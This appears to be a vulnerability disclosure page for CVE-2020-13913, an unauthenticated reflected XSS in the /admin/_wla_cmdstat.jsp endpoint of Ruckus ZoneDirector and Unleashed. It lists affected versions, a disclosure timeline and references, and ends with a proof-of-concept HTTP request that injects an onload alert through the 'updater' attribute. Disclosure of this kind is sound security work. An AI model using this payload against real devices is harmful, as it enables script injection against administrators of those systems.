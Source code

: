 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2020-02-05'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2020-06-15'
      url: 'https://support.ruckuswireless.com/security_bulletins/304'
    - type: 'cve-assign'
      date: '2020-06-07'
    - type: 'release'
      date: '2020-08-05'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

severity: 'moderate'
alephid: ALEPH-2020001
cve: CVE-2020-13913
date: '2020-06-07'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - txt'
      url: 'https://www.ruckuswireless.com/security/304/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20200615 - PDF'
      url: 'https://www.ruckuswireless.com/security/304/view/pdf'
  
title: 'XSS in /admin/_wla_cmdstat.jsp'
---
```

An XSS issue in `emfd` executable in Ruckus Wireless Unleashed through 200.7.10.102.92 allows a remote attacker to execute JavaScript code via an unauthenticated crafted HTTP request.
Every ajax request to "/admin/_wla_cmdstat.jsp" has to contain an "updater" attribute. The response reflected this value in the ajax response as an "id" attribute.

Information about the exploitation of this vulnerability can alos be found in our  [DEFCON 28](https://www.youtube.com/watch?v=Yt3mJlnODHU) talk.


## Proof Of Concept ##
``` http
POST /admin/_wla_cmdstat.jsp HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 190

<ajax-request action='docmd' updater='">
<a xmlns:a="http://www.w3.org/1999/xhtml"><a:body onload="alert(1)"/></a>
<!--' comp='system'>
<xcmd cmd='get-security-email-hint'/>
</ajax-request>
```